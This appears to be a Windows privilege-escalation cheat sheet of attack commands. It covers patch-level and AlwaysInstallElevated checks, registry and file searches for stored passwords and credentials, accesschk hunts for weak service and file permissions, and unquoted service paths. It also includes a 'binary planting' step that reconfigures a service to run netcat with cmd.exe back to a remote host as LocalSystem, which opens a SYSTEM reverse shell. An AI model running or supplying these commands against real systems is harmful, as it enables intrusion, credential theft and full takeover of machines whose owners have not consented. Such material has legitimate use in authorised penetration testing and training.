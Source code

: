 # Use wmic_info script! 
~~~
// WMIC: check patch level 
wmic qfe get Caption,Description,HotFixID,InstalledOn 
// Search pathces for given patch 
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.." 
// AlwaysInstallElevated fun 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 
// Other commands to run to hopefully get what we need 
dir /s *pass* == *cred* == *vnc* == *.config* 
findstr /si password *.xml *.ini *.txt 
reg query HKLM /f password /t REG_SZ /s 
reg query HKCU /f password /t REG_SZ /s 
// Service permissions 
sc query 
sc qc [service_name] 
// Accesschk stuff 
accesschk.exe /accepteula (always do this first!!!!!) 
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!) 
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8) 
accesschk.exe -ucqv [service_name] 
// Find all weak folder permissions per drive. 
accesschk.exe -uwdqs Users c:\ 
accesschk.exe -uwdqs "Authenticated Users" c:\ 
// Find all weak file permissions per drive. 
accesschk.exe -uwqs Users c:\*.* 
accesschk.exe -uwqs "Authenticated Users" c:\*.* 
//Find services with unquoted service paths:  
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """ 
// Binary planting 
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe" 
sc config [service_name] obj= ".\LocalSystem" password= "" 
sc qc [service_name] (to verify!) 
net start [service_name]
~~~

# sysinfo 
~~~
systeminfo
~~~
# Any services running as SYSTEM?
~~~        
tasklist /fi "USERNAME ne NT AUTHORITY\SYSTEM" /fi "STATUS eq running"
~~~
# If Windows > 2008 check the Group Policy Preferences.
~~~
\\REMOTE_HOST\SYSVOL\REMOTE_HOST\Policies\{POLICY_ID}\Machine\Preferences\ 
The following configuration files may be present: 
- Services\Services.xml 
- ScheduledTasks\ScheduledTasks.xml 
- Printers\Printers.xml 
- Drives\Drives.xml 
- DataSources\DataSources.xml
https://memorycorruption.org/windows/2018/07/29/Notes-On-Windows-Privilege-Escalation.html  
~~~
# Check if the hot potato exploit can be used.